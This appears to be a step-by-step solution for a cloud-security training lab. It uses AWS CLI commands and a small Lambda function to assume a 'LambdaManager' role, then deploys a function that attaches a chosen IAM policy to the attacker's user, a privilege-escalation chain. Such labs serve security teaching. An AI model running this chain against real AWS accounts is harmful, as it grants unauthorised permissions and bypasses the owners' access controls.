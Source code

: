 `aws iam list-attached-role-policies --role-name LamdaExecution-role-<user_id> --profile scenario7_<user_id>`

`aws iam list-attached-role-policies --role-name LambdaManager-role-<username_from_mail> --profile scenario7_<user_id>`

`aws iam get-policy-version --policy-arn <LambdaManager-policy arn> --version-id v1 --profile scenario7_<user_id>`

`aws sts assume-role --role-arn <LambdaManager-role arn> --role-session-name LambdaManager --profile scenario7_<user_id>`

Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

python code:

**Note**: The name of the file needs to be `lambda_function.py`.

````
import boto3
def lambda_handler(event, context):
 client = boto3.client('iam')
 response = client.attach_user_policy(UserName = '<username_from_mail>', PolicyArn='<arn_from_mail>')
 return response
````

**Note**: The function name needs to be `Sc7FinalLambda<userid>`.
`aws lambda create-function --function-name Sc7FinalLambda<userid> --runtime python3.6 --role < LamdaExecution-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager`

`aws lambda invoke --function-name Sc7FinalLambda<userid> out.txt --profile lambdaManager`

# If you have error try to use

`aws lambda invoke --function-name Sc7FinalLambda<userid> --profile lambdaManager --cli-binary-format raw-in-base64-out response.json`

`aws s3 ls --profile scenario7_<user_id>`
# Lambda invoke examples
## git cli 
aws lambda invoke --function-name Sc7FinalLambda<userid> --profile lambdaManager --cli-binary-format raw-in-base64-out response.json

## ubuntu/powershell 
aws lambda invoke --function-name Sc7FinalLambda<userid> --profile lambdaManager --cli-binary-format raw-in-base64-out response.json

---
